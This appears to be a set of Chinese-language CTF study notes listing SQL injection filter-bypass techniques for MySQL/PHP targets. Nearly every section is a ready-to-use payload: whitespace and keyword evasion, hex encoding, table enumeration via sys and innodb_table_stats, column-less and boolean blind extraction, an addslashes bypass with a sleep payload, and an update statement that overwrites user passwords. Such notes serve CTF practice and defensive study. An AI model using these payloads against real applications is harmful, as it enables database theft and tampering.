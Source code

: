 ## **大写绕过**
select被过滤，试试Select
```
mysql 8.0.19新增语句table

table table_name

过滤select可以使用table代替
```

^
## **编码绕过**
is_numeric($_GET['id']) ，过滤只允许数字，16进制编码sql注入。


^
## **过滤数字**
可以用true+true组合，相当于1+1


^
## **空格被过滤**
+空格过滤可以利用/**/代替空格。
```
有的时候是union select被过滤，union/**/select也可以绕过
```
编码绕过
```
%09  制表符table

%0a
%0b
%0c
%0d
```


利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

反引号代替空格
```
username = 0;update`ctfshow_user`set`pass`=1
```

^
## **注释符被过滤**
```
1、#编码用%23
2、将后面的单引号闭合即可。'or(id=26)and'1'='1   
or '1'='1
```
^
## **or 被过滤导致orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 
```
select group_concat(table_name）from mysql.innodb_table_stats where database_name=database()
```
如果information_schema被禁止，通过sys.schema获取当前数据库表名
```
1&&ascii(substr((select group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()),1,1))=103
2||ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}.format()
```

^
## **无字段名注入**
<https://www.cnblogs.com/hello-there/p/12918265.html>
知道表名，不知道字段名。分析字段数，再统一查某个字段的所有值。
```
表的字段数判断：select 1,2 union select * from user  试出字段数。

再直接查出值，无需知道字段名，查出原表第2的字段的所有记录值
select 1,2 union select * from user;

select `2` from  (select 1,2 union select * from user) as u
select u.2 from (select 1,2 union select * from users) as u

整合
select group_concat(`2`) from  (select 1,2 union select * from user) as u 


1. 列名需要用``包裹起来，字段名为数字，则`2`

2. 使用子查询的时候,即一个查询嵌套在另一个查询中,内层查询的结果可以作为外层查询的条件,内层查询到的结果需要起一个别名(as)
```

## **布尔中知道表名，不知字段名注入，布尔加无列名注入**
已知可以布尔盲注，但不知道字段名，直接无列名注入
```
表中如果有多个记录值：要条件查询成一条，一般都是一条。where flag like "f%"

表的字段数判断：select 1,2 union select * from user  试出字段数。

一个字段一条记录
select((select "{}")>(select * from f1ag_1s_h3r3_hhhhh))
两个字段一条记录，获取字段
select((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))

select((select 1,"fla")>(select * from f1ag_1s_h3r3_hhhhh))
通过flb>flag{xxx} 比较结果1或0即可
当为1时的回显，值-1就是正确字符
2||((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))
```






^
^
## **函数等效替换**
报错函数被过滤，寻找顶替。
ascii和ord


^
## **存在转义函数addslashes绕过**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```

^
如果是数值传参，如果是)闭合，直接不传入"和\即可绕过：
```
addslashes($id);
$res = $conn->query("SELECT `username` FROM ctfshow_users WHERE id = ($id)");

?id=222)%20union%20select%20group_concat(table_name)%20from%20mysql.innodb_table_stats%20where%20database_name%20=%20database()%23
```

^
## **where后=和like被过滤，用字段名使用正则模糊匹配字段的值**
需要知道字段名
```
select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')

select flag from Flag where flag regexp "^f";

flag like "f%"
(flag)like'c%'
```